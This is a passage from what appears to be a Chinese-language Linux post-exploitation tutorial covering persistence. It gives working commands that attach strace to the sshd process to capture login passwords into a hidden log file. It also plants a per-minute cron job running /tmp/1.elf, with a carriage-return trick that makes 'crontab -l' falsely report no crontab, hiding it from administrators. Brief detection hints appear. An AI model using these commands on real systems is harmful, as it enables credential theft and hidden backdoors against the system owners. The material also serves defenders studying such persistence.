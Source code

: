 
之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用 strace 来监听登陆本地的 sshd 流量。

```
ps -ef | grep sshd    //父进程PID
strace -f -p 4241 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211719699-1558610383.png)

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305212145796-1257295497.png)

检测：查看 shell 的配置文件或者 alias 命令即可发现，例如 ~/.bashrc 或 ~/.zshrc 文件查看是否有恶意的 alias

### 0x05 Cron 后门

在 Linux 系统中，计划任务一般是由 cron 承担，我们可以把 cron 设置为开机时自动启动。cron 启动后，它会读取它的所有配置文件（全局性配置文件 / etc/crontab，以及每个用户的计划任务配置文件），然后 cron 会根据命令和执行时间来按时来调用工作任务。

cron 表达式在线生成：[http://qqe2.com/cron](http://qqe2.com/cron)

```
(crontab -l;echo '\*/1 \* \* \* \* /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab -


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305213650119-595237820.png)

这样执行会在 crontab 列表里出现，如果是如上执行的话，管理员执行 crontab -l 就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示 "no crontab for root"。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示 "no crontab for root":

```
(crontab -l;printf "\*/1 \* \* \* \* /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\\rno crontab for \`whoami\`%100c\\n")|crontab -


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214230870-387789665.png)

实际上是他将 cron 文件写到文件中, 而 crontab -l 就是列出了该文件的内容:

```
/var/spool/cron/crontabs/root


```

通常 cat 是看不到这个的，只能利用 less、vim 或者 cat -A 看到，这也是利用了 cat 的一个缺陷，在下一节会主要讲这个。

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214447271-1226946787.png)

```
#这几个路径都可以存放cron执行脚本,对应的时间不同
/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 


```

